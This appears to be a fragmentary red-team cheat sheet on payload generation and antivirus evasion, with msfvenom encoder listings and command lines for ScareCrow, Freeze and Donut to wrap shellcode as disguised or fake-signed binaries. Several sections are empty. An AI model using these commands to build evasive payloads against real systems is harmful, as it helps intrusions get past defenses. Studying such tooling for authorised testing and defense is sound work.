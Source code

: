Display avilable encoders for 64 bit systems
```bash
msfvenom -l encoders | grep 'x64'
	x64/xor
	x64/xor_context
	x64/xor_dynamic
	x64/zutto dekiru
```

## Tooling (Payload Generation Frameworks)

### Scarecrow
```bash
msfvenom [...snip...] -f raw -o payload.bin

./ScareCrow -I payload.bin -Loader binary -domain random.domain

# Have fun being a fake microsoft signed binary
```

### Mangle

```bash

```

### Freeze
```
./Freeze -I SHELLCODE.bin -encrypt -process 'notepad.exe' -sha256 -O evil.dll
```

### Donut
```bash
msfvenom [...snip...] -f raw -o payload.bin

./donut -a 2 -f 7 -o payload.bin name.exe
```

### Limelighter

```bash

```

### SysWhispers
```bash

```


### Salsa
 
https://github.com/Hackplayers/Salsa-tools
